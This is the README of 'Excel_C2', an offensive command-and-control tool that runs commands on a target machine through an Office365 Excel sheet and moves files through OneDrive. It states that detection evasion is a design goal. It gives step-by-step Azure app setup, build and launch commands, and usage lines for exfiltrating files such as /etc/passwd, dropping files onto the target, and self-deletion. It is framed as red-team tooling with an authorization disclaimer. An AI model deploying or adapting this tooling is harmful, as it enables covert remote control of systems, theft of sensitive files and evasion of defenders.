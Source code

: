 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

# Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations**
    <p align="center">
        <img alt="Manage--App registrations" src="img/aad-portal-app-registrations.png" height="50%" width="50%">
    </p>
    1. Click the  **New Registration** button
    <p align="center">
        <img alt="New registration" src="img/new-registration.png" height="50%" width="50%">
    </p>
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button
    <p align="center">
        <img alt="New registration" src="img/new-application.png" height="50%" width="50%">
    </p>
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively.
    <p align="center">
        <img alt="App IDs" src="img/app-ids.png" height="50%" width="50%">
    </p>
    1. Click **API permissions**
    <p align="center">
        <img alt="API permissions" src="img/api-perms.png" height="50%" width="50%">
    </p>
    1. Click the **Add a permission** button
    <p align="center">
        <img alt="Add permission" src="img/add-perm-button.png" height="50%" width="50%">
    </p>
    1. Click the **Microsoft Graph** button
    <p align="center">
        <img alt="Add MS Graph" src="img/add-graph-perm.png" height="50%" width="50%">
    </p>
    1.  Click the **Application permissions** button
    <p align="center">
        <img alt="Application Permissions" src="img/app-perm.png" height="50%" width="50%">
    </p>
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button
    <p align="center">
        <img alt="Files Permissions" src="img/files-perm.png" height="50%" width="50%">
    </p>
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner
    <p align="center">
        <img alt="Grant Consent" src="img/grant-consent.png" height="50%" width="50%">
    </p>
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button
    <p align="center">
        <img alt="New Secret" src="img/new-secret.png" height="50%" width="50%">
    </p>
    1. Enter a description and click the **Add** button
    <p align="center">
        <img alt="Add Secret" src="img/add-secret.png" height="50%" width="50%">
    </p>
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field
    <p align="center">
        <img alt="Copy Secret" src="img/copy-secret.png" height="50%" width="50%">
    </p>

1. **Create the Excel Spreadsheet**

    1.  Login with the same account to [OneDrive](https://onedrive.live.com)
    1.  Click on the arrow next to the **New** button and select **Excel workbook**
    <p align="center">
        <img alt="New Workbook" src="img/new-excel.png" height="50%" width="50%">
    </p>
    1.  You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman 
    > NOTE: you've already completed Step3 by following this README
    1.  Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that
    <p align="center">
        <img alt="Get My Files" src="img/get-my-files.png" height="50%" width="50%">
    </p>
    1.  In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    1.  Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId`
    <p align="center">
        <img alt="Drive IDs" src="img/drive-ids.png" height="50%" width="50%">
    </p>
 
1. **Build executable**
 
    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheedId> --verbos <true|false>
    ```
   
   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

## Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is 

 ```
upload;<remote path>
 ```
Example:
 ```
upload;/etc/passwd
 ```
> NOTE: DO **NOT** add spaces.

### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is

 ```
download;<OneDrive file name>;<remote path>
 ```
Example:
 ```
download;down.txt;/home/user/downloaded.txt
 ```
> NOTE: DO **NOT** add spaces.

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation: 
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow


# Demo


# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Inspired from: https://github.com/looCiprian/GC2-sheet


# Support the project

**Pull request** 
